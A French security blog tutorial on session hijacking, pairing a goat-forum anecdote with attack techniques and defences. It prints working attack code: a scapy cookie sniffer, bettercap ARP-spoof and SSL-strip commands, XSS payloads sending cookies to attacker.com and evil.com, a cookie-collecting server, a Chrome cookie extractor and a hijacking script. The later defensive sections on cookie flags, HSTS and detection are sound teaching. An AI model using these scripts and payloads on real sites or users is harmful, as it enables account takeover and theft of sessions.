





# Session hijacking et cookie stealing : voler une session sans connaître le mot de passe

## Ou comment j'ai découvert que se connecter n'est qu'une partie du problème

Il y a quelques années, je gérais un petit forum pour passionnés d'élevage de chèvres (oui, ça existe, et oui, c'est passionnant). Un jour, un utilisateur m'a contactée paniqué : "Quelqu'un a posté des messages depuis mon compte, mais je n'ai donné mon mot de passe à personne !"

J'ai vérifié les logs. Effectivement, des posts depuis son compte. Mais le mot de passe n'avait jamais été changé. Pas de tentative de connexion échouée. Juste... une session active.

C'est là que j'ai compris : pourquoi pirater un mot de passe quand on peut juste voler la session active ? C'est comme voler les clés de la maison au lieu de forcer la serrure. Beaucoup plus simple. Beaucoup moins visible.

Bienvenue dans le monde du session hijacking, où votre connexion devient un objet qu'on peut voler, copier, et utiliser. Et où un simple cookie vaut mieux que mille mots de passe.

## Comment fonctionnent les sessions web

### Le problème : HTTP est stateless

HTTP n'a pas de mémoire. Chaque requête est indépendante. Le serveur ne sait pas qui vous êtes entre deux requêtes.



**Solution** : Les sessions et les cookies.

### Le mécanisme de session



**Le cookie de session** est votre badge d'identification. Tant que vous l'avez, le serveur vous reconnaît.

**Le problème** : Si quelqu'un vole ce cookie, il DEVIENT vous. Sans connaître votre mot de passe.

### Où sont stockés les cookies ?



Sur votre disque :
```bash
# Chrome/Chromium Linux
~/.config/google-chrome/Default/Cookies

# Firefox Linux
~/.mozilla/firefox/*.default-release/cookies.sqlite

# Windows Chrome
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies
```

Ces fichiers contiennent TOUS vos cookies. Y compris les sessions actives.

## Session Hijacking : les techniques d'attaque

### 1. Network sniffing : écouter le trafic

Sur un réseau non chiffré (HTTP), les cookies passent en clair :

```
GET /profile HTTP/1.1
Host: example.com
Cookie: session_id=abc123xyz789
User-Agent: Mozilla/5.0...
```

**Avec Wireshark** :

```bash
# Lancer Wireshark
sudo wireshark

# Filtre pour voir les cookies HTTP
http.cookie

# Vous voyez passer tous les cookies en clair !
```

**Extraction automatique avec tshark** :

```bash
# Capturer et extraire les cookies
sudo tshark -i wlan0 -Y "http.cookie" -T fields -e http.cookie

# Résultat :
session_id=abc123xyz789; user_pref=dark_mode
PHPSESSID=a1b2c3d4e5f6
auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

**Script Python pour sniffer les cookies** :

```python
#!/usr/bin/env python3
"""
Cookie Sniffer - Capturer les cookies HTTP
ÉDUCATIF UNIQUEMENT
"""

from scapy.all import *

captured_cookies = {}

def extract_cookies(pkt):
    """Extraire les cookies des paquets HTTP"""
    if pkt.haslayer(Raw):
        payload = pkt[Raw].load.decode('utf-8', errors='ignore')
        
        # Chercher les headers Cookie
        if 'Cookie:' in payload:
            lines = payload.split('\r\n')
            for line in lines:
                if line.startswith('Cookie:'):
                    cookies = line.replace('Cookie: ', '')
                    
                    # Extraire l'IP source et destination
                    if pkt.haslayer(IP):
                        src = pkt[IP].src
                        dst = pkt[IP].dst
                        
                        key = f"{src} -> {dst}"
                        
                        if key not in captured_cookies:
                            captured_cookies[key] = set()
                        
                        captured_cookies[key].add(cookies)
                        
                        print(f"\n[+] Cookie capturé !")
                        print(f"    De: {src}")
                        print(f"    Vers: {dst}")
                        print(f"    Cookie: {cookies[:80]}...")

def main():
    print("[*] Cookie Sniffer démarré")
    print("[*] Capture des cookies HTTP en clair...")
    print("[*] CTRL+C pour arrêter\n")
    
    try:
        # Sniffer le trafic HTTP (port 80)
        sniff(
            filter="tcp port 80",
            prn=extract_cookies,
            store=0
        )
    except KeyboardInterrupt:
        print("\n\n[*] Arrêt du sniffer")
        print(f"[*] {len(captured_cookies)} sessions capturées")
        
        # Sauvegarder les cookies
        with open('captured_cookies.txt', 'w') as f:
            for connection, cookies in captured_cookies.items():
                f.write(f"{connection}\n")
                for cookie in cookies:
                    f.write(f"  {cookie}\n")
                f.write("\n")
        
        print("[*] Cookies sauvegardés dans captured_cookies.txt")

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[!] Ce script nécessite root")
        sys.exit(1)
    main()
```

**Protection** : HTTPS. Les cookies sont chiffrés. Mais lisez la suite...

### 2. XSS : Cross-Site Scripting pour voler des cookies

Même avec HTTPS, si le site a une vulnérabilité XSS, on peut exécuter du JavaScript dans le navigateur de la victime.

**Le code malveillant** :

```html
<!-- Injecté dans un champ vulnérable -->
<script>
  // Récupérer tous les cookies
  var cookies = document.cookie;
  
  // Envoyer à l'attaquant
  var img = new Image();
  img.src = "http://attacker.com/steal?c=" + encodeURIComponent(cookies);
</script>
```

**Exemple concret** : Forum mal sécurisé

```html
<!-- Message posté par l'attaquant -->
Regardez ma chèvre préférée ! <script>fetch('http://evil.com/log?c='+document.cookie)</script>
```

Quand quelqu'un lit ce message, le script s'exécute dans SON navigateur et envoie SES cookies à `evil.com`.

**Serveur de l'attaquant** :

```python
#!/usr/bin/env python3
"""
Serveur simple pour recevoir les cookies volés
"""

from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs

class CookieStealerHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # Parser l'URL
        parsed = urlparse(self.path)
        
        if parsed.path == '/steal':
            # Extraire le paramètre 'c' (cookies)
            params = parse_qs(parsed.query)
            
            if 'c' in params:
                cookies = params['c'][0]
                ip = self.client_address[0]
                
                print(f"\n[+] Cookies volés !")
                print(f"    IP victime: {ip}")
                print(f"    Cookies: {cookies}\n")
                
                # Sauvegarder
                with open('stolen_cookies.txt', 'a') as f:
                    f.write(f"{ip}: {cookies}\n")
        
        # Répondre (image 1x1 pixel transparent)
        self.send_response(200)
        self.send_header('Content-type', 'image/gif')
        self.end_headers()
        # GIF transparent 1x1
        self.wfile.write(b'GIF89a\x01\x00\x01\x00\x80\x00\x00\xff\xff\xff\x00\x00\x00!\xf9\x04\x01\x00\x00\x00\x00,\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02D\x01\x00;')
    
    def log_message(self, format, *args):
        # Désactiver les logs HTTP normaux
        pass

if __name__ == "__main__":
    server = HTTPServer(('0.0.0.0', 8080), CookieStealerHandler)
    print("[*] Serveur de vol de cookies démarré sur port 8080")
    print("[*] En attente de victimes...\n")
    server.serve_forever()
```

**Utilisation** :
```bash
python3 cookie_stealer_server.py

# Dans un autre terminal, tester
curl "http://localhost:8080/steal?c=session_id=abc123;token=xyz789"

# Vérifier stolen_cookies.txt
```

### 3. MITM + SSL Stripping

Combiner ARP poisoning avec SSL stripping pour forcer HTTP même si le site veut HTTPS :

```bash
# Avec bettercap
sudo bettercap -iface wlan0

# Dans la console
set http.proxy.sslstrip true
set arp.spoof.targets 192.168.1.100
http.proxy on
arp.spoof on
net.sniff on
```

**Ce qui se passe** :
1. Victime essaie d'aller sur `https://bank.com`
2. Bettercap intercepte et répond avec `http://bank.com`
3. Victime voit HTTP (mais peut ne pas le remarquer)
4. Cookies transmis en clair
5. Attaquant les capture



**Protection** : HSTS (HTTP Strict Transport Security). Le navigateur refuse HTTP pour ces sites.

### 4. Malware et accès physique

Le plus simple : accès au fichier de cookies.

```python
#!/usr/bin/env python3
"""
Extraire les cookies du navigateur (Chrome)
"""

import sqlite3
import os
import json
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2
import base64

def get_chrome_cookies(profile_path):
    """
    Extraire les cookies de Chrome
    
    Linux: ~/.config/google-chrome/Default/Cookies
    """
    cookies_path = os.path.join(profile_path, 'Cookies')
    
    if not os.path.exists(cookies_path):
        print(f"[-] Fichier cookies non trouvé: {cookies_path}")
        return []
    
    # Copier la DB (Chrome la verrouille)
    import shutil
    temp_cookies = '/tmp/Cookies_copy'
    shutil.copy2(cookies_path, temp_cookies)
    
    # Lire la DB SQLite
    conn = sqlite3.connect(temp_cookies)
    cursor = conn.cursor()
    
    cursor.execute("""
        SELECT host_key, name, value, encrypted_value 
        FROM cookies
    """)
    
    cookies = []
    for host, name, value, encrypted_value in cursor.fetchall():
        # Sur Linux, les cookies peuvent être en clair
        if value:
            cookies.append({
                'host': host,
                'name': name,
                'value': value
            })
        else:
            # Déchiffrement nécessaire (plus complexe sur Windows/Mac)
            cookies.append({
                'host': host,
                'name': name,
                'value': '[ENCRYPTED]'
            })
    
    conn.close()
    os.remove(temp_cookies)
    
    return cookies

def export_cookies(cookies, output_file='cookies.json'):
    """Exporter les cookies en JSON"""
    with open(output_file, 'w') as f:
        json.dump(cookies, f, indent=2)
    
    print(f"[+] {len(cookies)} cookies exportés vers {output_file}")

if __name__ == "__main__":
    chrome_profile = os.path.expanduser('~/.config/google-chrome/Default')
    
    print("[*] Extraction des cookies Chrome...")
    cookies = get_chrome_cookies(chrome_profile)
    
    if cookies:
        export_cookies(cookies)
        
        # Afficher quelques exemples
        print("\n[*] Exemples de cookies trouvés:")
        for cookie in cookies[:5]:
            print(f"    {cookie['host']}: {cookie['name']} = {cookie['value'][:50]}...")
    else:
        print("[-] Aucun cookie trouvé")
```

### 5. Session Fixation

Forcer une victime à utiliser un session ID que VOUS connaissez :



**Exemple de lien malveillant** :

```
https://bank.com/login?PHPSESSID=attacker_controlled_session_id
```

Si le site accepte les session IDs par URL, la victime se connecte avec VOTRE session ID.

**Protection** : Régénérer le session ID après login.

```php
// PHP : régénération de session après login
session_start();
// ... vérification credentials ...
if ($login_success) {
    session_regenerate_id(true);  // ← IMPORTANT
    $_SESSION['user_id'] = $user_id;
}
```

## Utiliser un cookie volé

### Méthode 1 : EditThisCookie (extension navigateur)

```
1. Installer EditThisCookie dans Chrome/Firefox
2. Aller sur le site cible
3. Cliquer sur l'icône EditThisCookie
4. Coller les cookies volés
5. Rafraîchir la page
6. Vous êtes connecté comme la victime
```

### Méthode 2 : Console développeur

```javascript
// Ouvrir console (F12)

// Définir le cookie
document.cookie = "session_id=abc123xyz789; path=/; domain=.example.com";

// Vérifier
console.log(document.cookie);

// Rafraîchir la page
location.reload();
```

### Méthode 3 : curl

```bash
# Faire une requête avec le cookie volé
curl -H "Cookie: session_id=abc123xyz789" https://example.com/profile

# Ou avec plusieurs cookies
curl -H "Cookie: session_id=abc123; token=xyz789" https://example.com/api/data
```

### Méthode 4 : Script Python automatisé

```python
#!/usr/bin/env python3
"""
Session Hijacker - Utiliser un cookie volé
"""

import requests

def hijack_session(url, cookies_dict):
    """
    Utiliser des cookies volés pour accéder à un site
    
    cookies_dict: {'session_id': 'abc123', 'token': 'xyz'}
    """
    session = requests.Session()
    
    # Définir les cookies
    for name, value in cookies_dict.items():
        session.cookies.set(name, value)
    
    # Faire une requête
    try:
        response = session.get(url)
        
        print(f"[+] Requête vers {url}")
        print(f"[+] Status: {response.status_code}")
        print(f"[+] Content length: {len(response.text)} bytes")
        
        # Vérifier si authentifié
        if 'logout' in response.text.lower() or 'dashboard' in response.text.lower():
            print("[+] Session valide ! Authentification réussie")
            return response.text
        else:
            print("[-] Session probablement invalide/expirée")
            return None
    
    except Exception as e:
        print(f"[-] Erreur: {e}")
        return None

if __name__ == "__main__":
    # Exemple : cookies volés
    stolen_cookies = {
        'session_id': 'abc123xyz789',
        'auth_token': 'Bearer_token_here'
    }
    
    target_url = "https://example.com/dashboard"
    
    print("[*] Tentative de hijacking de session...")
    content = hijack_session(target_url, stolen_cookies)
    
    if content:
        # Sauvegarder la page
        with open('hijacked_page.html', 'w') as f:
            f.write(content)
        print("[+] Page sauvegardée dans hijacked_page.html")
```

## Se protéger : défense en profondeur

### 1. Flags de sécurité des cookies

**HttpOnly** : Empêche JavaScript d'accéder au cookie

```javascript
// Sans HttpOnly
console.log(document.cookie);  // Fonctionne

// Avec HttpOnly
console.log(document.cookie);  // Ne montre PAS le cookie HttpOnly
```

**Configuration serveur** :

```php
// PHP
setcookie('session_id', $value, [
    'httponly' => true,  // ← XSS ne peut pas voler
    'secure' => true,    // ← Seulement HTTPS
    'samesite' => 'Strict'  // ← Protection CSRF
]);
```

```python
# Flask (Python)
response.set_cookie(
    'session_id',
    value,
    httponly=True,
    secure=True,
    samesite='Strict'
)
```

```javascript
// Express.js (Node)
res.cookie('session_id', value, {
    httpOnly: true,
    secure: true,
    sameSite: 'strict'
});
```

**SameSite** : Empêche l'envoi du cookie sur requêtes cross-site

```
SameSite=Strict : cookie JAMAIS envoyé depuis autre site
SameSite=Lax : cookie envoyé seulement sur GET safe
SameSite=None : cookie toujours envoyé (dangereux)
```

**Secure** : Cookie envoyé UNIQUEMENT sur HTTPS

### 2. HTTPS obligatoire partout

```nginx
# Nginx : forcer HTTPS
server {
    listen 80;
    server_name example.com;
    return 301 https://$server_name$request_uri;
}

server {
    listen 443 ssl;
    server_name example.com;
    
    # HSTS : forcer HTTPS pendant 1 an
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    
    # ... reste de la config SSL
}
```

### 3. Régénération de session après login

```php
<?php
session_start();

if ($login_successful) {
    // CRITIQUE : régénérer session ID
    session_regenerate_id(true);
    
    // Puis définir les données de session
    $_SESSION['user_id'] = $user_id;
    $_SESSION['login_time'] = time();
}
?>
```

### 4. Timeout de session

```python
# Flask example
from datetime import datetime, timedelta

@app.before_request
def check_session_timeout():
    if 'last_activity' in session:
        last = datetime.fromisoformat(session['last_activity'])
        
        # Timeout après 30 minutes d'inactivité
        if datetime.now() - last > timedelta(minutes=30):
            session.clear()
            return redirect('/login?timeout=1')
    
    session['last_activity'] = datetime.now().isoformat()
```

### 5. User-Agent et IP binding

```python
# Lier la session à User-Agent et IP
def create_session(user_id, request):
    session_id = generate_secure_token()
    
    store_session(session_id, {
        'user_id': user_id,
        'ip': request.remote_addr,
        'user_agent': request.headers.get('User-Agent'),
        'created_at': time.time()
    })
    
    return session_id

def validate_session(session_id, request):
    session_data = get_session(session_id)
    
    if not session_data:
        return False
    
    # Vérifier IP et User-Agent
    if session_data['ip'] != request.remote_addr:
        log_suspicious_activity("IP changed")
        return False
    
    if session_data['user_agent'] != request.headers.get('User-Agent'):
        log_suspicious_activity("User-Agent changed")
        return False
    
    return True
```

**Problème** : Utilisateurs mobiles changent d'IP souvent. Solution : combiner avec autres vérifications.

### 6. CSP : Content Security Policy

Empêcher l'exécution de scripts non autorisés :

```nginx
# Nginx
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'unsafe-inline' https://trusted-cdn.com; object-src 'none';" always;
```

Empêche l'XSS de charger des scripts externes pour voler des cookies.

### 7. Détection d'anomalies

```python
#!/usr/bin/env python3
"""
Détection de session hijacking basée sur comportement
"""

def detect_hijacking(session_id, request):
    """Détecter des patterns suspects"""
    session = get_session_data(session_id)
    
    anomalies = []
    
    # 1. Changement de pays soudain
    old_country = geoip_lookup(session['last_ip'])
    new_country = geoip_lookup(request.remote_addr)
    
    if old_country != new_country:
        time_diff = time.time() - session['last_access']
        # Voyage impossible en < 1 heure
        if time_diff < 3600:
            anomalies.append("Impossible travel")
    
    # 2. Changement de device fingerprint
    old_fp = session.get('device_fingerprint')
    new_fp = calculate_fingerprint(request)
    
    if old_fp and old_fp != new_fp:
        anomalies.append("Device fingerprint changed")
    
    # 3. Pattern d'accès inhabituel
    if is_unusual_pattern(session['user_id'], request.path):
        anomalies.append("Unusual access pattern")
    
    if anomalies:
        alert_security_team(session_id, anomalies)
        # Option : forcer re-authentification
        return False
    
    return True
```

## L'analogie avec les chèvres (parce que vous l'attendiez)

Les sessions web, c'est comme le système de passes VIP dans mon enclos.

Quand quelqu'un vient visiter mes chèvres (oui, je fais des visites guidées, ne me jugez pas), je leur donne un badge "VIP ACCÈS TOTAL". Avec ce badge, ils peuvent :
- Entrer dans l'enclos
- Nourrir les chèvres
- Prendre des photos
- Accéder à la mangeoire

Un jour, quelqu'un a "emprunté" un badge pendant que le visiteur ne regardait pas. Résultat : accès total sans avoir payé, sans même que je sache qui c'était.

C'est exactement le session hijacking :
- **Le badge VIP** = le cookie de session
- **Emprunter le badge** = voler le cookie
- **Accès à tout** = session hijacking réussi
- **Je ne vois pas la différence** = le serveur ne détecte rien

Mes solutions :
1. **Badge avec photo** = binding IP/User-Agent
2. **Badge qui expire** = timeout de session
3. **Vérifier régulièrement** = détection d'anomalies
4. **Badge impossible à photocopier** = HttpOnly, Secure, SameSite

Maintenant mes badges VIP sont sécurisés. Enfin, jusqu'à ce que Ragnar trouve une nouvelle faille. Elle a déjà essayé de dupliquer un badge avec du scotch et du carton. L'intention était là.

## Ce qu'il faut retenir

Le session hijacking est redoutablement efficace parce qu'il bypass complètement l'authentification. Pas besoin de cracker un mot de passe. Juste voler le bon cookie.

**Pour attaquer (éthiquement)** :
1. XSS pour exfiltrer les cookies (si pas HttpOnly)
2. Network sniffing si HTTP
3. MITM + SSL stripping si pas HSTS
4. Accès physique aux fichiers de cookies

**Pour se protéger** :
1. **HTTPS partout** + HSTS
2. **Flags de cookies** : HttpOnly, Secure, SameSite
3. **Régénération** de session après login
4. **Timeouts** agressifs
5. **Binding** IP/User-Agent (avec précaution)
6. **Détection d'anomalies**
7. **CSP** pour bloquer XSS

**L'essentiel** :
- Les cookies de session = clés du royaume
- HttpOnly empêche XSS de les voler
- Secure + HTTPS empêche interception
- SameSite empêche CSRF
- Monitoring détecte l'abuse

## Conclusion

Le session hijacking m'a appris une leçon importante : l'authentification n'est que le début. Une fois connecté, maintenir la sécurité de la session est tout aussi critique.

C'est comme verrouiller votre porte à double tour (mot de passe fort), mais laisser la fenêtre grande ouverte (cookies non sécurisés). L'attaquant ne force pas la porte, il passe par la fenêtre.

Depuis mon incident sur le forum de chèvres (oui, on y revient toujours), j'ai implémenté :
- HttpOnly sur TOUS les cookies de session
- HTTPS obligatoire avec HSTS
- Régénération de session après login
- Timeout à 30 minutes d'inactivité
- Monitoring des sessions suspectes

Résultat : plus aucun hijacking. Enfin, pas que je sache. Et c'est tout le problème : le session hijacking est silencieux. La victime ne sait pas qu'elle est compromise jusqu'à ce qu'il soit trop tard.

C'est pour ça que la défense en profondeur est critique. Une couche de sécurité échoue ? Les autres compensent.

Et si mes chèvres m'ont appris quelque chose, c'est qu'il faut toujours avoir plusieurs barrières. Parce que Ragnar finira par trouver un moyen de passer la première.

---

*PS : Le visiteur qui a "emprunté" un badge ? C'était mon conjoint qui testait ma sécurité. J'ai failli le tuer. Puis j'ai implémenté des badges avec photo.*

*PPS : Si vous utilisez des cookies de session sans HttpOnly, Secure, et SameSite en 2025, vous méritez d'être hijackés. Désolée, pas désolée. C'est comme laisser votre mot de passe sur un post-it.*

*PPPS : Ragnar a effectivement réussi à dupliquer un badge. Avec du scotch et du carton. Elle avait l'intention. La technique était... discutable. Mais l'intention était là. Je ne sais toujours pas si je dois être impressionnée ou terrifiée.*
